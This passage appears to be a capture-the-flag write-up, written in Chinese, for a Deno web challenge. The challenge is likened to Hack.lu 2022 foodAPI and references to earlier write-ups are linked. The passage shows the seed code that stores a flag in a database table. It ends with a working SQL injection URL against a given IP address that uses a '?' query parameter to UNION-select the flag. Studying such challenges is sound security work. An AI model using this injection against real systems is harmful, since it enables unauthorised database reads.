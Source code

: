 ```javascript

await Flight.create({
    departure: 'Paris',
    destination: 'Tokyo',
});

await Flight.create({
    departure: 'Las Vegas',
    destination: 'Washington',
});

await Flight.create({
    departure: 'London',
    destination: 'San Francisco',
});

await Flag.create({
    flag: Deno.env.get('flag'),
});

export default Flight
```

跟 Hack.lu 2022 foodAPI 几乎一模一样, 参考文章如下

[https://blog.huli.tw/2022/10/31/hacklu-ctf-2022-writeup/](https://blog.huli.tw/2022/10/31/hacklu-ctf-2022-writeup/)

[https://gist.github.com/parrot409/f7f5807478f50376057fba755865bd98](https://gist.github.com/parrot409/f7f5807478f50376057fba755865bd98)

[https://gist.github.com/terjanq/1926a1afb420bd98ac7b97031e377436](https://gist.github.com/terjanq/1926a1afb420bd98ac7b97031e377436)

唯一的区别是原题 id 用的是 restful api 的形式, 而这道题是 get 传参, 不能直接照抄 exp

不过稍微看一下文章中分析的原理就能知道思路是利用参数 `?` 来拼接 sql 语句, 所以仿照原来的 payload 将 `?` 作为另一个 get query 传递进去

```
http://81.70.155.160:3000/flight?id=1&?=a` and 0 union select flag,2 from flag;
```

![image-20221204144938461](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202212041449665.png)